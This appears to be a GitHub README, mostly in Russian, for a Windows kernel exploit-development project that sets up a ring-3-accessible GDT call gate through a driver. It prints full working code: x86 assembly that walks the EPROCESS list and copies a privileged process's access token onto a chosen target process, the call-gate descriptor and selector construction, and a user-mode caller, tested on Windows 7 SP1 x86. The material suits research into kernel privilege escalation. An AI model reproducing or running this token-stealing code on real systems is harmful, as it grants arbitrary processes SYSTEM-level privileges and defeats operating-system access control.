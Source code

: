 # GDT CallGate. Kernel exploit development

## Задача - steal token from source process to target process

+ подготовить exploit и функцию для ring-0 callgate вызова (kernel-mode)

```C++
DWORD steal_token(DWORD TARGET_PID, DWORD SOURCE_PID)
{
 char res = 0;
#if defined(DEBUG)
 DbgPrintEx(DPFLTR_IHVDRIVER_ID, DPFLTR_ERROR_LEVEL, "CallGate - TARGET_PID: %d | SOURCE_PID: %d\n", TARGET_PID, SOURCE_PID);
#endif
 // TOKEN STEALER X86 ASM
 __asm
 {
 Start:
  pushad
   mov eax, fs : [KTHREAD_OFFSET]
   mov eax, [eax + EPROCESS_OFFSET]
   mov ecx, eax                            // Copy current _EPROCESS structure
   mov ebx, [eax + TOKEN_OFFSET]           // Copy current nt!_EPROCESS.Token
   mov edx, SOURCE_PID                     // Process PID = SOURCE_PID
   SearchSystemPID :
  mov eax, [eax + FLINK_OFFSET]    // Get nt!_EPROCESS.ActiveProcessLinks.Flink
   sub eax, FLINK_OFFSET
   cmp[eax + PID_OFFSET], edx              // Get nt!_EPROCESS.UniqueProcessId
   jne SearchSystemPID
   mov edx, [eax + TOKEN_OFFSET]           // Get SYSTEM process nt!_EPROCESS.Token
   mov esi, eax
   SearchProcessPID :
  mov ecx, eax
   mov edi, [eax + PID_OFFSET]
   mov eax, [eax + FLINK_OFFSET]   //ebx - Next _EPROCESS
   sub eax, FLINK_OFFSET
   cmp eax, esi
   jz Stop
   cmp edi, [TARGET_PID]
   jz SetToken
   jmp SearchProcessPID
   SetToken :
  mov[ecx + TOKEN_OFFSET], edx
   mov[res], 1
   Stop :
   popad
 }
 return res;
}

// INPUT STACK PARAMS:
//  SOURCE_PID  [esp+12]
// TARGET_PID  [esp+8]
// CS SELECTOR  [esp+4]
// RETADDR   [esp]
__declspec(naked) ULONG_PTR call_gate_proc() {
 __asm
 {
  // prolog
  push ebp
  mov ebp, esp

  push fs     // Save the value of FS
  mov ax, 0x30   // Set FS to kernel mode value
  mov fs, ax

  mov eax, [ebp + 16]  // SOURCE_PID
  push eax
  mov eax, [ebp + 12]  // TARGET_PID
  push eax 
  call steal_token

  pop fs     // Restore the value of FS

  // epilog
  mov esp, ebp
  pop ebp
  retf 8
 }
}
```

+ сформировать callgate descriptor с прямым вызовом exploit'а с параметрами из ring-0 в ring-3 (kernel-mode)

```C++
CALL_GATE_DESCRIPTOR build_call_gate_descriptor(PVOID entryPoint) {
 ULONG address = (ULONG)entryPoint;
 CALL_GATE_DESCRIPTOR callGateDescr = { 0 };

 callGateDescr.offset_00_15 = 0x0000ffff & address;    //Offset(specifies the procedure’s entry - point within its code - segment)
 address = address >> 16;
 callGateDescr.offset_16_31 = 0x0000ffff & address;    //Offset (specifies the procedure’s entry-point within its code-segment)
 callGateDescr.selector = 0x8;         //Code-selector (specifies memory-segment containing procedure code)
 callGateDescr.argCount = 0x2;         //Parameter count (specifies how many parameter-values will be copied)        
 callGateDescr.type = 0xC;          //Gate - Type('0x4' means a 16 - bit call - gate, '0xC' means a 32 - bit call - gate)
 callGateDescr.dpl = 0x3;          //DPL = Descriptor Privilege Level (ring-0, ring-1, ring-2, ring-3) 
 callGateDescr.pFlag = 0x1;          //P = present (1 = yes, 0 = no)

 //         P|DLP|S  type  zeros  params
 //callGateDescr(flags only) =    1110   1100  0000   0001b   <=> 0xec02

 return callGateDescr;
}
```

+ сформировать селектор по индексу callgate descriptor'а в GDT (kernel-mode)

```C++
  // create selector
  /*
   Selectors
   In real mode, the segment registers (CS, DS, ES, SS, FS, GS) specify a real mode segment. And you can put anything to them, no matter where it points. And you can read and write and execute from that segment. In protected mode, these registers are loaded with selectors.
   Selector
   Bit 0 - 1 : RPL
   Requested Protection Level. It must be equal or less privileged than the segments DPL.
   Bit 2 : TI
   If this bit is set to 1, the selector selects an entry from the LDT instead of the GDT (see below for LDT).
   Bits 3 - 15:
   Zero based index to the table (GDT or LDT).
  */
  selector = gdt_index << 3;
  selector |= 3;   // set TI = 0, RPL to 3 => allow access to this selector from ring-3
```

+ сделать вызов callgate selector'а из ring-3 (user-mode)

```C++
int main()
{
 WORD farcall[] = { 0, 0, 0xab };
 BYTE result = 0;

 DWORD TARGET_PID, SOURCE_PID;

 std::cout << "SOURCE_PID (dec): ";
 scanf_s("%d", &SOURCE_PID);
 std::cout << std::endl << "TARGET_PID (dec): ";
 scanf_s("%d", &TARGET_PID);
 std::cout << std::endl;

 __asm
 {
  push[SOURCE_PID]
  push[TARGET_PID]
  call fword ptr[farcall]
  mov[result], al
 }

 if (result) std::cout << "Token has been stolen!" << std::endl;
 else std::cout << "Error!" << std::endl;
}
```

+ проверить смену token'а

## caller

+ содержит код программы вызова callgate selector'а из ring-3 (user-mode)

## callgate_driver

+ содержит код KMDF драйвера для работы в ring-0 (kernel-mode)

## bin

+ Caller.exe - compiled caller
+ CallGate.sys - compiled driver
+ CallGate.cer - test driver's sing public key

## Для проверки корректной работы использовались

+ ```Windows 7 SP1 x86 6.1.7601.24545```
+ ```Dbgview```
+ ```procexp```
+ ```OSR driver loader```

## Пример работы

![alt text](/img/callgate.gif)

## Ссылки

+ <https://rayanfam.com/topics/call-gates-ring-transitioning-in-ia-32-mode/>
+ <https://www.codeproject.com/Articles/45788/The-Real-Protected-Long-mode-assembly-tutorial-for>
+ <https://github.com/SinaKarvandi/IA32-CALL-GATES/tree/master>
+ <https://github.com/therealdreg/cgaty>
